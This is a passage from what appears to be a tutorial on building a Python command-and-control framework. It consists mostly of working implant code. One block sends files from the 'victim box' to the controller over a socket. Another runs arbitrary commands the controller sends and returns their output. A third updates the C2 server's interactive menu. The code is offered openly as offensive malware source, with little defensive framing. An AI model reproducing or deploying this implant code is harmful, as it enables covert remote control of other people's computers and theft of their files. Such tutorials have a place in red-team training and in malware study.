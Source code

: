 > And the code for when the C2 wishes to download a file from the implant!

```python
if "~download~" in data:
    print(data.split("~"))
    data=data.split("~")
    filepath = data[2]
    print(filepath)
    time.sleep(3)
            
    if not os.path.isfile(filepath):
        print(f"Error: File '{filepath}' does not exist.")
        return
    filename = os.path.basename(filepath)
    print(filename)
    filesize = os.path.getsize(filepath)
    filesize=str(filesize)
    print(filesize)
    client.send(filesize.encode())
    with open(filepath, 'rb') as f:
        for chunk in iter(lambda: f.read(4096), b''):
            client.sendall(chunk)
                  
    #client.send(b"file sent!\n")
    time.sleep(3)
```

> Lastly, the code for when we want to execute a command on the victim box:

```python
if "c0mm@nd" in data:
    command=data.split("\n")
    command=command[1]
    print("command: ", command)
    proc = subprocess.Popen(command, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    #print(proc.stdout.read().decode())
    output=proc.stdout.read().decode().strip()
    #print(output)
    output=output.encode()
    proc.stdin.close()
    proc.terminate()
            
    client.sendall(b"returned output: \n"+output+b"\n:endofoutput:\n")
```

***Adding in the C2 Server code Updates***
-

> Menu updates

Here, we remove the code that would clear the screen automatically each time we loaded the menu and also give the user the choice to open the menu:

```python
 while True:
        """
        --> you can uncomment if you want, but I like the commands showing on screen
        if os.name == 'nt':
            os.system("cls")
        else:
            os.system("clear")
        """
        try:
            choice=input(Fore.YELLOW + "[C2-Shell]:~$ " + Fore.WHITE)
        except:    
            print(Fore.RED + "[!] enter a number..." + Fore.WHITE)
            time.sleep(2)
```